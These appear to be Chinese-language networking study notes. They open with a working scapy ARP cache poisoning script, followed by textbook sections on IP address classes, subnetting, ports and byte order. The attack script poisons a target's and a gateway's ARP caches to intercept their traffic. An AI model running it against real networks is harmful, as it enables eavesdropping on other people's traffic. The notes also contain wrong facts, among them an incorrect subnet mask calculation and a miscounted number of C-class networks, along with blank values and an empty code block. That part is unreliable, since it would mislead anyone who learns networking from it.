ARP 则是地址解析协议，获得 IP 地址对应的硬件地址；与 RARP 协议如 ARP 相反的协议，叫逆地址解析协议，获得硬件地址对应的 IP 地址，通常用于无盘工作站。

#### ARP 缓存投毒

##### 目标机

```shell
ip addr
```

```shell
arp -a
```

攻击过程中，目标机将攻击者当成网关。

```python
from time import sleep

from scapy.layers.inet import Ether
from scapy.layers.l2 import ARP
from scapy.sendrecv import send, srp1


def get_mac_by_ip(ip="192.168.0.1"):
    """通过 IP 获取对方 MAC"""
    answer = srp1(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip), timeout=2)
    if answer is not None:
        return answer[Ether].src
    return ""


def arp_cache_poisoning_attack(gateway_ip="192.168.0.1", target_ip="192.168.0.106"):
    """
    值 | 含义
    1 | ARP 请求
    2 | ARP 应答
    3 | RARP 请求
    4 | RARP 应答
    """

    # 让目标认为攻击者是网关
    target_mac = get_mac_by_ip(target_ip)
    poison_target = ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac)

    # 让网关认为攻击者是目标
    gateway_mac = get_mac_by_ip(gateway_ip)
    poison_gateway = ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst=gateway_mac)

    for _ in range(1000):
        try:
            send(poison_target)
            send(poison_gateway)
            sleep(2)
        except KeyboardInterrupt:
            break

    # 恢复
    restore_target = ARP(
        op=2,
        psrc=gateway_ip,
        hwsrc=gateway_mac,
        pdst=target_ip,
        hwdst="ff:ff:ff:ff:ff:ff",
    )

    send(restore_target, count=5)

    restore_gateway = ARP(
        op=2,
        psrc=target_ip,
        hwsrc=target_mac,
        pdst=gateway_ip,
        hwdst="ff:ff:ff:ff:ff:ff",
    )

    send(restore_gateway, count=5)


if __name__ == "__main__":
    print(get_mac_by_ip("192.168.0.106"))
    arp_cache_poisoning_attack()
```

## IP 地址分类与 TCP/UDP 端口

要想使网络设备或者主机能够连接到 Internet，必须为网络设备配置 IP 地址。由于在 Internet 上 IP 地址是全世界唯一的，IP 地址可以标示一个主机。目前应用范围最广泛的因特网地址使用的是 IPv4IP 第 4 版本的 IP 地址，长为 32 位，由 4 组十进制数组成，每组数值的范围为 0 ~ 255，中间用点号“.”隔开，称之为四组“点分二进制”。例如，IP 地址对应的二进制表达方式为：

```shell
10101100 00010000 00001100 11001100
```

### 因特网中 IP 地址的分类

一个 IP 地址由 IP 地址类型、网络 ID 和主机 ID 组成。网络类型标识本 IP 地址所属的类型，网络 ID 标识 IP 表示设备或主机所在的网络，主机 ID 标识网络上的工作站、服务器或路由选择器。每个网络设备对应的网络 ID 必须唯一，在同一个网络中各网络设备的主机 ID 不能重复，以进行区分。IP 地址的一般格式为：

类别 + 网络标识 + 主机标识

- 类别：用来区分 IP 地址的类型；
- 网络标识 NetworkID：表示主机所在的网络；
- 主机标识 HostID：表示主机在网络中的标识。

#### IP 地址的分类

IP 地址通常分为 5 类：A 类、B 类、C 类、D 类、E 类。

- A 类地址：如图所示，网络标识占 1 个字节，最高位为 0。A 类网络地址有 128 个，允许支持 127 个网络，每个 A 类网络大约允许有 1670 万台主机存在。此类地址通常分配给拥有大量主机的网络，如一些大公司如 IBM 公司等和因特网主干网络，这些地址中大约 1/3 已经被分配，想得到这类地址是很困难的。


- B 类地址：如图所示，B 类地址的高两位用于标识这种 IP 地址的类型，即为 10，中间的 14 位用于标识网络，最后的两个字节 16 位用做主机标识。B 类地址允许有 16000 个网络，每个网络大约允许有 66000 台主机。B 类地址通常分配给结点比较多的网络，如区域网，此类 IP 大约已经分配了 5000 个 B 类地址。


- C 类地址：C 类 IP 地址是最常见的地址，如图所示。网络标识占 3 个字节，3 个高位用于地址类型识别，值为 110。左边 3 个字中的其余 21 位用于表示网络寻址，C 类地址支持大约 209715 个网络。最后一个字节用来标识主机，允许有 254 台主机。C 类地址通常分配给结点比较少的网络，例如，一些大的校园网可以拥有多个 C 类地址。


- D 类地址：D 类地址是相当新的，前 4 位为 1110，此类地址用于组播，例如路由器修改、视频会议等应用系统都采用了组播技术实现，其格式参见图 5.29。


- E 类地址：此类地址为保留地址，目前没有使用，前 4 位为 1111。


#### 因特网规定的一些特殊地址

在 IP 地址中有一些特殊的地址，含义如下：

- 主机 ID 全为 0 的 IP 地址，它不分配给任何主机，仅用于表示某个网络的网络地址，例如：192.168.1.0，表示网络为 192.168.1.0，其中的主机为 192.168.1.1~192.168.1.254。

- 主机 ID 全为 1 的 IP 地址，这个地址也不分配给任何主机，仅用做广播地址。目的地址为这个 IP 地址的分组数据发送给该网络中的所有结点，至于能否执行广播，则要依赖于其物理网络是否支持广播的功能。例如，192.168.1.255 为网络 192.168.1.0 的广播值，向此 IP 地址发送的分组数据，全网络的主机都接受。

- IP 地址的 32 位全为 1 的地址即 255.255.255.255，为有限广播地址，这个地址通常由无盘工作站启动时使用，从网络 IP 地址服务器获得一个分配给工作站的 IP 地址。

- IP 地址的 32 位全为 0 的地址即 0.0.0.0，表示主机本身，发往此 IP 地址的数据分组，有本机接收。

- IP 地址 127.0.0.1 是一个特殊的回环接口，它常用于在本地进行软件测试。

#### IP 地址的申请

在局域网上的一个主机用户要想接入因特网，需要获得授权的 IP 地址，IP 地址由 IP 地址授权机构分配，此授权机构通常称为网络信息中心 NIC。组网用户根据网络规模的大小，向较高层次的网络管理中心申请 IP 地址；通常情况下网络中心根据申请者的规模进行评估，分配若干连续地址的 IP 地址，形成一个网络 ID，网络 ID 内部的 IP 地址由申请者的网络管理员进行管理，给子网内的各主机使用。

例如中国的大量 IP 地址申请由中国互联网络信息中心 CNNIC 受理，但 CNNIC 受理的仅仅为批量的 IP 地址，例如仅受理 8 个 C 类网络以上的 IP 地址申请，并且要保证一定的使用条件，申请地址较少的用户，需要向附近的互联网服务提供商 ISP 申请，由 ISP 对其申请到的 IP 地址进行再分配。

教育网是一个特殊的机构，IP 地址可以优先供给科研用途。教育网内 IP 的申请向中国教育科研网 edu.cn 网络中心提交，教育网将从亚太地区网络中心 APNIC 申请的 IP 地址进行再次分配。

### 子网掩码 subnet mask address

子网掩码指的是一个 32 位字段的数值，利用此字段来**屏蔽原来网络地址的划分情况，从而获得一个范围较小的、可以实际使用的网络**。

#### 子网掩码的含义

网络的子网掩码设置主要用来屏蔽原来网络的划分情况。使用子网掩码，网络设备可以分析得出一个 IP 地址的网络地址和子网地址，以及主机地址。网络的路由器根据目的地址的网络号和子网号可以做出路由寻址决策，IP 地址的主机 ID 不参与路由器的路由寻址操作，它用于在某个网段中识别一个网络设备。

子网掩码使用与 IP 相同的点分四段式的编址格式，其中值为 0 的部分对应于 IP 地址的主机 ID 部分，值为 1 的部分对应于 IP 地址的网络地址部分。子网掩码与 IP 地址进行“与”运算后，所得到的值为网络地址和子网地址，主机 ID 部分将不再存在。利用此特性可以计算两个 IP 地址的网络地址和子网地址判断是否处于同一个子网中。

例如，某个网络 IP 分组数据的目的地址为 192.168.1.151，如果其子网掩码为 255.255.255.128，IP 地址与子网掩码“与”运算后的结果为 192.168.1.128，则该 IP 地址的网络 ID 和子网号的值为 192.168.1.128（前 25 位），后 7 位为主机号。

其实，如果网络系统中只有 A、B、C 这 3 种类型的 IP 地址，判断 IP 地址的第一个字节的数值范围就可以判断此 IP 地址属于 A、B、C 中的哪一类网，从而得到该 IP 地址的网络部分和主机部分，不需要子网掩码的辅助。3 类网的子网掩码如下：

- A 类地址网络的子网掩码地址为；
- B 类地址网络的子网掩码地址为；
- C 类地址网络的子网掩码地址为。

子网掩码主要有如下用处：

- 便于网络设备的尽快寻址，区分本网段地址和非本网段的地址。
- 划分子网，进一步缩小子网的地址空间，充分利用目前紧缺的 IP 地址。

#### 利用子网掩码确定网段

利用子网掩码可以确定两个 IP 地址是否输入同一个网段。比较两台计算机的 IP 地址与子网掩码进行“与”运算后的值，如果结果相同，则说明两台计算机处于同一个子网络上。**在以太网结构的网络中，同一子网内的两台计算机可以直接通信，而不用路由器对 IP 分组进行转发**。

例如，主机 A 的 IP 地址为 192.168.1.151，子网掩码为 255.255.255.128 ；主机 B 的 IP 地址为 192.168.1.150，子网掩码为 255.255.255.128，对两个主机的计算如表 5.7 所示。


对两个主机的 IP 地址和子网掩码进行按位“与”运算，得到两个主机的网络地址均为 11000000.10101000.00000001.10000000，即192.168.1.128，可知两个主机在同一个网络上。

对计算的过程进行分析可知，子网掩码 255.255.255.128 的网络上，所有最后一个字节的值为 `128~255` 的 IP 地址与子网掩码进行运算的时候，其结果都相同。可以确定对于子网掩码为 255.255.255.128 的子网上，IP 地址从 192.168.1.128~192.168.1.255 都在同一个子网 192.168.1.128 上。由于 192.168.1.128 地址用于表示网络，192.168.1.255 用于广播，所以实际可用的 IP 地址数量为 128-2=126个。

#### 用子网掩码进行网络划分

使用 A、B、C 类进行 IP 地址划分的方法对目前有限的 IP 地址来说有点浪费，所以出现了使用子网掩码进行网络划分的方法。使用子网掩码进行网络划分的基本原理是子网掩码与 IP 地址“与”运算结果相同的 IP 地址在同一个网络上。

例如，有 50 个主机，需要为其划定网络，而目前 IP 地址段空闲的为。如果全部使用上述的地址段，50 个主机占用 254 个有用地址显然太浪费了，可以对网络地址进行重新划分，建立一个能够容纳 50 个主机的网络。

- 首先计算需要的 IP 地址，50 个主机占用 50 个 IP 地址，加上 1 个网络地址和 1 个广播地址，建立网络需要 IP 地址 52 个。
- 子网掩码的数值通常以 2 个 n 次方进行取值，所以取掩码值为 64。
- 子网掩码为 255.255.255.64，IP 地址的范围是 192.168.1.0~192.168.1.64，最多可以容纳 64 个主机，可以满足 54 个主机的需要。

### IP 地址的配置

在 Linux 下进行网络配置的命令是 ifconfig，它用于显示、设置网络设备的 IP 地址和子网掩码。ifconfig 的命令格式为：

ifconfig 网络编号 IP 地址 netmask 子网掩码

将当前主机的网络设备 eth0 配置成 IP 地址为 192.168.1.151，子网掩码为255.255.255.128。命令为：

```shell
ifconfig eth0 192.168.1.151 netmask 255.255.255.128
```

配置完毕后可以使用 ifconfig 命令进行查看，不带参数时，会显示所有激活的网络接口的当前配置信息。

```shell
ifconfig eth0
```

### 端口

TCP 和 UDP 协议是以 IP 协议为基础的传输，为了方便多种应用程序，区分不同应用程序的数据和状态，引入了端口的概念。

端口是一个 16 位的整数类型值，通常称这个值为端口号。如果是服务程序，则需要对某个端口进行绑定，这样某个客户端可以访问本主机上的此端口来与应用程序进行通信由于 IP 地址只能对主机进行区分，而加上端口号就可以区分此主机上的应用程序。实际上 IP 地址和端口号的组合，可以确定在网络上的一个程序通路，端口号实际上是操作系统识应用程序的一种方法。

端口号的值可由用户自定义或者由系统分配，采用动态系统分配和静态用户自定义村结合的办法。一些常用的服务程序使用固定的静态端口号，例如，Web 服务器的端口号 80，电子邮件 SMTP 的端口号为 25，文件传输 FTP 的端口号为 20 和 21 等。对于其他的应用服务，特别是用户自行开发的客户端应用程序，端口号采用动态分酉方法，其端口号由操作系统自动分配。通常情况下，对端口的使用有如下约定，小于 102 的端口为保留端口，由系统的标注服务程序使用； 1024 以上的端口号，用户应用程序可使用。

在 Linux 系统的文件 /etc/services 中列出了系统提供的服务以及各服务的端口号等信息。

```shell
cat /etc/services
```

## 主机字节序和网络字节序

在使用网络进行程序设计中会碰到的一个问题是字节序的问题，这在基于单机或者同类型机器进行开发的过程中很少遇到。由于网络的特点是将 Internet 上不同的网络设备和主机进行连接和通信，这决定了使用网络进行开发的程序的特点就是要兼容各种类型的设备，其中的数据在不同的设备上要有唯一的含义。字节序的问题是上述情况下的典型问题。

### 字节序的含义

字节序的问题是由于 CPU 对整数在内存中的存放方式造成的。字节多于一个字节的数据类型在内存中的存放顺序叫主机字节序。最常见的字节序有两种，小端字节序和大端字节序。

- 小端字节序：即 Little Endian，简称 LE，将数据的最低字节放在内存的起始位置。

小端字节序的特点是内存地址较低的位存放数据的低位，内存地址高的位存放数据的高位，与思维习惯一致。采用低字节序的 CPU 有 x86 架构的 Intel 系列产品。

- 大端字节序：即 Big Endian，简称 BE，将数据的高字节放在内存的起始位置。大端字节序的特点是内存中低字节位置存放数据的高位字节，内存中的高位字节存放数据的较低字节数据，与思维习惯不一致。但是与实际数据的表达方式是一致的。如果将内存中的数据直接存放在文件中，打开文件查看会发现和原来的数据的高低位一致。采用大端字节序的典型的代表有 PowerPC 的 UNIX 系统。

例如对于一个 8 为字节的数据 0x12345678，假设在内存中存放的开始地址为 0x1000，则在小端字节序系统和大端字节序系统中的方式如表 5.8 所示。


而如果将 0x12345678 写入内存地址 0x1000 开始的地方，在内存中的值为表 5.9 所示形式。


系统对多字节数据的不同存放方法造成了使用方法的问题，例如在× 86 系统主机 A 上的一个值为 0x12345678，数据通过网络传送到 PowerPC 上的一个运行 UNIX 的主机 B 上，在 B 上此值解释为 0x78563412，与原来的数据迥异，这样就造成了传输上兼容性方面的困难。

```shell

```

### 网络字节序的转换

网络的字节序标准规定为大端字节序，不同平台上会对主机字节序进行转化，成为网络字节序后再进行传送，到主机后再转化为主机字节序，数据的传输就不会产生传输造成的问题了。同一个数据在不同的平台上可以使用网络字节序的转换函数来实现。

如图 5.31 所示为主机 A 中的应用程序将变量 a 中的值 0x12345678，通过网络传递给主机 B 中的应用程序中的变量 b，如果不进行网络字节序转换，b 的值为 0x78563412。


如图5.32 所示，如果进行网络字节序转换，a 的值与 b 的值均为 0x12345678。


进行网络字节序转换的函数有 htons、ntohs、htonl、ntohl 等，其中 s 是 short 数据类型的意思，l 是 long 数据类型的意思，而 h 是 host 即主机的意思，n 是 network 即网络的意思。以上 4 个函数分别为：

- htons：表示对于 short 类型的变量，从主机字节序转换为网络字节序。
- ntohs：表示对于 short 类型的变量，从网络字节序转换为主机字节序。
- htonl：表示对于 long 类型的变量，从主机字节序转换为网络字节序。
- ntohl：表示对于 long 类型的变量，从网络字节序转换为主机字节序。字节序的转换函数并没有转换符号类型变量，是否为符号类型，是由应用程式来确定的，与字节序无关。

字节序转换函数在不同平台上的实现是不同的，例如对于 long 类型的转换，小端主机字节序的平台要进行转换，而在大端主机字节序的平台上是不需要进行转换的。例如下面的实现方式可以兼容不同的平台：

```shell
#define ISLE 0
#define ISBE 1

#if ISLE
/*小端字节序平台调用此部分代码*/
long htonl(long value) {
  /*进行转换,即位置0x12345678转换位置→0x78563412*/
  return ((value << 24) | ((value << 8) & 0x00FF0000) | ((value >> 8) & 0x0000FF00) | (value >> 24));
}
#elif ISBE
/*大端字节序平台调用此部分代码*/
long htonl(long value) {
  /*由于大端字节序平台与网络字节序一致,不需要进行转换*/
  return value;
}
#endif
```

不同的平台的实现代码是不同的部分。其他函数的实现与此类似，注意 htons 和 ntohs 函数及 htonl 和 ntohl 函数是对应的转换，两个函数完全可以使用同一套代码，例如：

```c++
#define ntohl htonl
```
